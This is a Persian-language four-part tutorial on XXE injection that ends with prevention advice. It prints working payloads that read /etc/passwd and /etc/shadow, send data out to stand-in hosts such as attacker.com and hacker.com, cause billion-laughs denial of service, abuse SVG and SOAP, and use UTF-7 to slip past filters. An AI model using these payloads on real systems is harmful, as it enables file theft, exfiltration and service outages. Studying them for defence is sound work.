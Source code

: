 📌 حملات XXE (تزریق XML) - بخش اول  

🔹حمله XXE چیست؟  
حملۀ XXE (XML External Entity Injection) یک آسیب‌پذیری امنیتی در پردازش داده‌های XML است که به مهاجم اجازه می‌دهد به فایل‌های سیستم سرور دسترسی پیدا کند یا با سیستم‌های backend تعامل داشته باشد. در برخی موارد، این آسیب‌پذیری می‌تواند منجر به حمله‌های جعل درخواست سمت سرور (SSRF) یا حتی اختلال در سرویس (DoS) شود.  

🔹 انواع حملات XXE   
1. استخراج فایل‌ها (مثلاً خواندن /etc/passwd)  
2. حملات SSRF (ارسال درخواست به سیستم‌های داخلی)  
3. انتقال داده‌ها به صورت خارج از باند (OOB)  
4. استخراج داده از طریق پیام‌های خطا  

🔹 مثال ساده از XXE:  
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
در این مثال، مهاجم محتوای فایل /etc/passwd را می‌خواند.  

📌 حملات XXE (تزریق XML) - بخش دوم  

🔹 حملات پیشرفته XXE  

 1. حملات Blind XXE (انتقال داده به صورت خارج از باند)  
در برخی موارد، برنامه پاسخ مستقیمی نشان نمی‌دهد، اما مهاجم می‌تواند داده‌ها را به یک سرور تحت کنترل خود منتقل کند.  

مثال:  
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY blind SYSTEM "http://attacker.com/?%xxe;">
]>
<foo>&blind;</foo>
در این حالت، محتوای /etc/passwd به سرور مهاجم ارسال می‌شود.  

2. دور زدن کنترل‌های دسترسی (PHP Example)  
با استفاده از فیلترهای PHP، می‌توان فایل‌های محدودشده را خواند:  
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/shadow">
]>
<foo>&ac;</foo>
(در این مثال، فایل /etc/shadow به صورت base64 کدگذاری و خوانده می‌شود.)  

 3. حملات DoS با XXE 
بعضی از payloadهای XXE می‌توانند باعث مصرف بیش از حد منابع سرور شوند:  
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  ...
]>
<lolz>&lol9;</lolz>
این حمله باعث ایجاد حجم زیادی از داده‌های تکراری و crash سرور می‌شود.  

📌 حملات XXE (تزریق XML) - بخش سوم  

🔹 حملات پیشرفته XXE (ادامه)  

4. استفاده از XXE در فایل‌های SVG (حملات از طریق تصاویر)  
فایل‌های SVG مبتنی بر XML هستند و می‌توانند حاوی payloadهای XXE باشند:  
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" height="200">
    <image xlink:href="expect://id"></image>
</svg>
اگر سایتی آپلود SVG را بدون فیلتر کردن اجازه دهد، این payload می‌تواند دستورات سیستم را اجرا کند.  

5. استفاده از XXE در پروتکل SOAP (سرویس‌های وب)  
در APIهای SOAP-based نیز می‌توان از XXE سوءاستفاده کرد:  
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://attacker.com/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
این payload درخواستی به سرور مهاجم ارسال می‌کند.  

6. استفاده از کدگذاری UTF-7 برای دور زدن فیلترها  
بعضی سیستم‌ها فقط UTF-8 را پردازش می‌کنند، اما با UTF-7 می‌توان برخی فیلترها را دور زد:  
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hacker.com/+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4

🔹 جمع‌بندی بخش سوم  
- درون SVGها می‌توانند حاوی XXE باشند.  
-حتی APIهای SOAP نیز در معرض خطرند.  
- با تغییر کدگذاری (مثل UTF-7) می‌توان برخی فیلترها را دور زد.  

ادامه در بخش چهارم (پیشگیری و دفاع)...

📌 حملات XXE (تزریق XML) - بخش چهارم (پایانی)  

🔹 روش‌های پیشگیری و دفاع در برابر XXE  

1. غیرفعال کردن پردازش موجودیت‌های خارجی (External Entities)  
در اکثر پردازشگرهای XML (مثل PHP, Java, .NET)، می‌توان این ویژگی را غیرفعال کرد:  

مثال در PHP:  
libxml_disable_entity_loader(true);

مثال در Python (lxml):  
parser = etree.XMLParser(resolve_entities=False)

2. استفاده از Whitelisting برای ورودی‌های XML  
- فقط اجازه‌دهید المان‌ها و attributeهای مورد اعتماد پردازش شوند.  
- از اسکیماهای معتبر (XSD) برای اعتبارسنجی ساختار XML استفاده کنید.  

3. فیلتر کردن محتوای خطرناک  
- بلوک کردن <!DOCTYPE و <!ENTITY در ورودی کاربر.  
- مسدود کردن پروتکل‌های خطرناک مثل file://, php://, expect://.  

4. به‌روزرسانی کتابخانه‌های پردازش XML  
بسیاری از آسیب‌پذیری‌های XXE در نسخه‌های قدیمی کتابخانه‌ها (مثل libxml2) وجود دارند.  

5. استفاده از فرمت‌های جایگزین (JSON به جای XML)  
در بسیاری از موارد، استفاده از JSON به جای XML می‌تواند خطر XXE را حذف کند.  

🔹 نتیجه‌گیری  
حملات XXE می‌توانند منجر به خواندن فایل‌های حساس، حملات SSRF و حتی اختلال در سرویس (DoS) شوند. با غیرفعال کردن موجودیت‌های خارجی و اعتبارسنجی دقیق ورودی‌ها، می‌توان از این حملات جلوگیری کرد.  

✅ امن‌تر کدنویسی کنید! ✅  

✍️نویسنده 
@TryHackBox | The Chaos

#XXE #Prevention #CyberSecurity


===================================

ابزار docem ابزاری است که برای گنجاندن Payloadهای XXE  و XSS در قالب‌های سندی مانند docx, odt, pptx, xlsx استفاده می‌شود. این فرمت‌های سند در واقع فایل‌های ZIP حاوی فایل‌های XML هستند؛ به همین دلیل امکان تزریق این نوع حملات وجود دارد.

https://github.com/whitel1st/docem

=====================================


مقاله مورد اشاره در جلسات XXE :
https://gosecure.github.io/xxe-workshop/#0
لابراتوار مورد بررسی در جلسات XXE :
https://www.vulnhub.com/entry/xxe-lab-1,254/
